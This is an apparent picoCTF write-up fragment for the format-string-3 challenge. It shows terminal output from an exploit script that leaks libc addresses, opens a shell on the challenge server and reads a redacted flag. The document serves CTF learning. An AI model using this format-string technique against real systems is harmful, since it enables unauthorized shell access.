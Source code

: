     $./pwn-format-string-3.py remote rhea.picoctf.net 61378
    [*] '/picoCTF/format-string-3/format-string-3'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x3ff000)
        RUNPATH:  b'.'
    [+] Opening connection to rhea.picoctf.net on port 61378: Done
    Calculated libc base address: 0x7e93ddedd000
    Calculated libc system() address: 0x7e93ddf2c760
    [*] Switching to interactive mode

    ... (snip) ...

         fbad208b...............\x18@$ ls
    Makefile
    artifacts.tar.gz
    flag.txt
    format-string-3
    format-string-3.c
    ld-linux-x86-64.so.2
    libc.so.6
    metadata.json
    profile
    $ cat flag.txt
    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.
